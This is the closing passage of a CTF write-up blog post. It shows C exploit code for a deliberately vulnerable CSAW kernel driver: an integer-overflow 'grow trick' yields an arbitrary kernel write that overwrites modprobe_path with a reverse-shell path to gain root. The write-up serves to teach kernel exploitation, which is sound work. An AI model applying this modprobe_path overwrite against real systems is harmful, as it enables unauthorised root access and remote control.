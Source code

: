 ```c
}

int fd;
int main(){
	//OPEN THE DEVICE
	fd = open("/dev/csaw",O_RDWR);
	if(fd < 0){return -1;}
	// Create a new IPC
	struct alloc_channel_args alloc_channel;
    	alloc_channel.buf_size = 0x1000;
    	ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    	int id = alloc_channel.id;
    	printf("[+] channel id: %d\n", id);
    	// GROW TRICK
        struct grow_channel_args grow_channel;
    	grow_channel.id = id;
   	grow_channel.size = 0xffffffffffffffff - alloc_channel.buf_size;
    	ioctl(fd, CSAW_GROW_CHANNEL, &grow_channel);
	//EXPLOIT
	unsigned long modprobe = 0xffffffff81e4c800; //ffffffff81e4c800 D modprobe_path
	char *buf = malloc(0x1000);
	memset(buf, '\0',0x1000);
	strcpy(buf, "/reverse_shell\0");
	//set the address to modprobe_path
	struct seek_channel_args seek_channel;
	seek_channel.id = id;
	seek_channel.index = modprobe - 0x10;
	seek_channel.whence = SEEK_SET;
	ioctl(fd,CSAW_SEEK_CHANNEL,&seek_channel);
	//overwrite modprobe_path
	struct write_channel_args write_channel;
	write_channel.id = id;
	write_channel.buf = buf;
	write_channel.count = strlen(buf);
	ioctl(fd,CSAW_WRITE_CHANNEL,&write_channel);

	get_root();

	return 0;
}
```

So as you can see the usual modprobe overwrite is so powerful! It needs only an arbitrary write and then just userland interactions...

So the other techinques were cool and obv fascinating to learn about but
MODPROBE_PATH >> *.

Thanks for reading. Hope to write more stuff in 2024!

What to expect on next blogs:
- eBPF
- Some more exotic call_usermode interactions
- Maybe a msg_msg blog
- Other CTF writeups? 
- Fuzzing stuff? (Don't know...)
But I mean you got the idea!